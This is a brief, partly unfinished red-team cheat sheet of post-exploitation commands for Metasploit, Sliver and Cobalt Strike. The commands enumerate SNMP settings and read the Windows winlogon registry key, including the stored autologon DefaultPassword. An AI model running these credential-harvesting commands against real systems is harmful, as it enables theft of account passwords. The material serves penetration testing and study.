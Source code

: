 # C2 Frameworks

## 01 - Metasploit

### 1.1 - Post Module

```
meterpreter > run post/windows/gather/enum_snmp
```

### 1.2 - Interactive Session

TODO: Look the post module source code to convert it to commands

```
meterpreter > reg enumkey [-r <target_IP>] -k HKLM\\SYSTEM\\Current\\ControlSet\\Services\\SNMP [-w <64>]
```

## 02 - Sliver

TODO: Fill this info

```
sliver (IMPLANT_NAME) > registry read -H HKLM "SOFTWARE\Microsoft\Windows NT\CurrentVersion\winlogon"

sliver (IMPLANT_NAME) > registry read
```

## 03 - Cobalt Strike

TODO: Fill this info

```
beacon> reg query x64 "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\winlogon"

beacon> reg queryv x64 "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\winlogon" DefaultUserName

beacon> reg queryv x64 "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\winlogon" DefaultDomainName

beacon> reg queryv x64 "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\winlogon" DefaultPassword
```

---
## References

### Rapid7

- [Rapid7: Metasploit Framework - Windows AutoLogin Post Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/gather/credentials/windows_autologin.md)